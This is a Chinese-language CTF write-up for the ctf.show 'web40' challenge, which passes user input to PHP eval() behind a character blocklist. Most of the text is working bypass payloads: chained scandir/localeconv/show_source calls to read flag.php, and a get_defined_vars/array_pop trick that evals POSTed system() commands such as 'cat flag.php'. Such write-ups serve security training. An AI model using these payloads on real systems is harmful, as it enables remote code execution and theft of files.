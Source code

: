 # web40

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

仙之人兮列如麻

但是，但是，这里的括号是中文括号，那么还是有希望的

可以尝试构造文件读取

```plaintext
pos(localeconv()) => .
scandir(pos(localeconv())) => scandir(.)
```

变成

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=print_r(scandir(pos(localeconv())));

res: Array ([0] => . [1] => .. [2] => flag.php [3] => index.php )
```

然后要取 `flag.php` 的话，可以 `array_reverse` 之后用 `next` 取第二个

```plaintext
array_reverse(scandir(pos(localeconv()))) => Array ( [0] => index.php [1] => flag.php [2] => .. [3] => . ) 
next(array_reverse(scandir(pos(localeconv())))) => flag.php
```

成功构造出`flag.php`文件名之后，开始读取

```plaintext
show_source(next(array_reverse(scandir(pos(localeconv()))))) => show_source("flag.php")
```

即 `https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

![img](img/image_20250255-195526.png)

或者换一个方式，可以使用`get_defined_vars`函数，来替代php伪协议

```plaintext
get_defined_vars() => Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); ) [_POST] => Array ( ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars()); ) 
```

然后POST一个表达式 `command=system("whoami");`

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=print_r(get_defined_vars());

POST: command=system("whoami");
```

![img](img/image_20250200-200031.png)

使用`array_pop`对array进行加工

```plaintext
array_pop(next(get_defined_vars())) => array
```

![img](img/image_20250204-200405.png)

然后取值

```plaintext
array_pop(next(get_defined_vars())) => system("whoami");
```

即可执行命令

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=eval(array_pop(next(get_defined_vars())));

POST: command=system("cat flag.php");
```

![img](img/image_20250220-202042.png)
